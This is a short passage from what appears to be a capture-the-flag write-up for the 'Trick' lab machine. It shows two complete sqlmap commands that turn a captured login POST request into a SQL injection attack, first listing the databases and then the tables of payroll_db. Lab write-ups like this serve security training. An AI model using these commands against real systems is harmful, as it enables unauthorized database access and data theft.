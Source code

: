 - Copy POST request in network tab browser as `curl`  command, change `curl` to `sqlmap` or save request from burp to file, and 

- List the DB, add command `-dbs` to the end

```bash
sqlmap 'http://preprod-payroll.trick.htb/ajax.php?action=login' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'Origin: http://preprod-payroll.trick.htb' -H 'Connection: keep-alive' -H 'Referer: http://preprod-payroll.trick.htb/login.php' -H 'Cookie: PHPSESSID=oa30hhodtgive7cv1v5ogdvli5' --data-raw 'username=admin&password=admin' -dbs
```

- After have DB, we tried to fetch the tables
```bash
 sqlmap 'http://preprod-payroll.trick.htb/ajax.php?action=login' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'Origin: http://preprod-payroll.trick.htb' -H 'Connection: keep-alive' -H 'Referer: http://preprod-payroll.trick.htb/login.php' -H 'Cookie: PHPSESSID=oa30hhodtgive7cv1v5ogdvli5' --data-raw 'username=admin&password=admin' -D payroll_db --tables
```

